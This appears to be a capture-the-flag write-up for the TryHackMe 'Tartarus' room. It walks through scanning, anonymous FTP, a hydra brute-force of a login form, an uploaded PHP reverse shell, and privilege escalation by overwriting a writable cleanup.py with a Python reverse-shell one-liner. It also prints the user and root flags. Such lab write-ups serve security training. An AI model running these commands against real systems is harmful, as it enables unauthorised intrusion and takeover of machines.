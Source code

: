 # Tartarus

Room: Tartarus

Link: https://tryhackme.com/room/tartaraus

TARGET IP: 10.10.13.146

### SCANNING

  Nmap scan results:
    
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 7.2p2 
    80/tcp open  http    Apache httpd 2.4.18

### ENUMERATION

 ftp anonymous login is allowed and after logging in we go to ... and then again ... directory
 <img src="screenshots/ftplogin.png">
  we get /sUp3r-s3cr3t directory 

 
Go to robots.txt 
  User-Agent: *
  Disallow : /admin-dir

  I told d4rckh we should hide our things deep.

Entering into /admin-dir

  <img src="screenshots/admindir.png">
  
  Downloading the files using :
  
    wget http://10.10.13.146/admin-dir/credentials.txt
    wget http://10.10.13.146/admin-dir/userid
  
  
 There is a login page and we have the userid and credentials.txt file. We can try and bruteforce the login page via hydra.

  use hydra bruteforce /sUp3r-s3cr3t
   
    hydra -L userid -P credentials.txt 10.10.127.236 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"

   <img src="screenshots/hydra.png">

    After logging in we get into home.php where we can upload files. Upload the script for reverse shell here.

    Start the listener on your machine

    Uploading the reverse shell php script on the page 
    Download the script from here:

    http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

we need to find the uploads directory to run our script
Now we run the directory scan 
 
 So we find the images directory with dirb and here is the upload folder open it and run the script.
 Now we got our reverse shell.

  Go to home/d4rckh 
  You got the user flag! 0f7dbb2243e692e3ad222bc4eff8521f
 
 ### PrivEsc
 Now let's hunt for the root flag. Looking at the permissions of files cleanup.py we find it has write permissions too.
 Lets modify it for privileged reverse shell
     
    printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Your THM IP",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > cleanup.py

    Also setup a listener port nc -lvnp 5555
 
 
 And finally we have our root shell  
  
  <img src="screenshots/rootshell.png">

    Root flag! 
    7e055812184a5fa5109d5db5c7eda7cd

    
